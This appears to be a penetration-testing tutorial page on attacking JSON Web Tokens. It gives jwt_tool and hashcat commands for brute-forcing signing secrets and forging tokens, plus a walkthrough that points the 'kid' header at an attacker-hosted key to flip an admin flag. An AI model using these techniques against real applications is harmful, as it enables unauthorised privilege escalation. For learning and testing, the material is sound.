 [back](/)

### JSON Web Tokens exploitation (JWT hack tricks)

What JSON Web Token (JWT) is? It is an open standard RFC 7519 for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. 
JSON signature algorithms are used to secure the transmission of such information. For more information about JWT read: jwt.io. 

The JWT is divided into three sections, separated by a dot: **HEADER.PAYLOAD.SIGNATURE**

To work with the JWT, [jwt_tool](https://github.com/ticarpi/jwt_tool) utility is best suited, which will allow exploiting the most popular vulnerabilities:

```
(CVE-2015-2951) The alg=none signature-bypass vulnerability
(CVE-2016-10555) The RS/HS256 public key mismatch vulnerability
(CVE-2018-0114) Key injection vulnerability
(CVE-2019-20933/CVE-2020-28637) Blank password vulnerability
(CVE-2020-28042) Null signature vulnerability
```

In case there are no vulnerabilities, you can try to guess or brute force the JWT encryption password and than change any key and values. For example, set the flag **"is_admin":"true"** or something similar. In order to generate the appropriate JWT, that will be suitable for the application, a encryption password is required.

To brute force a JWT encryption password, using a dictionary method:

```
hashcat -a 0 -m 16500 jwthash.txt wordlist.txt
```

![Image](/img/jwt/1.png)

For parse JWT you can use [jwt.io](https://jwt.io/) site or the [jwt_tool](https://github.com/ticarpi/jwt_tool) utility:

![Image](/img/jwt/2.png)

![Image](/img/jwt/2.5.png)

To generate JWT by [jwt_tool](https://github.com/ticarpi/jwt_tool), using HMAC-SHA signing:

```
python3 jwt_tool.py -b -S hs256 -p 'keypass' $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"data": {"username": "jaki"}}' | base64 -w0).
```

In this case, it is represented an attack on the JWT, where the HEADER section uses reading the private key to decrypt the token. Imagine you have users JWT token after registering on the web application, and your goal is to elevate your rights

```
HEADER:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key" --- change to attacker ip
}

PAYLOAD

{
  "username": "root",
  "email": "1@test.ru",
  "admin_cap": "false" --- change on true 
}
```

In this example, the attacker can try to replace the ip-address with his own, having previously created a pair of keys:

```
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
```

Initially, access to the admin panel is closed due to the set flag in PAYLOAD: **"admin_cap":"false"**.

![Image](/img/jwt/3.png)

Сonsidering that the web application uses **RS56 RSA signing**, there are two ways to encrypt a JWT with the **"admin_cap":"true"** value and the modified **"kid"** HEADER value:

1. Using [jwt.io](https://jwt.io/) site
2. Or using [jwt_tool](https://github.com/ticarpi/jwt_tool) utility

```
python3 jwt_tool.py CURRENT_JWT -T -S rs256 -pr /tmp/keys/privKey.key
```

![Image](/img/jwt/4.png)

![Image](/img/jwt/4.5.png)

Before sending the JWT application, you need to start the http-server to access the private key:

![Image](/img/jwt/5.png)

The attacker successfully gained access to the admin panel:

![Image](/img/jwt/6.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)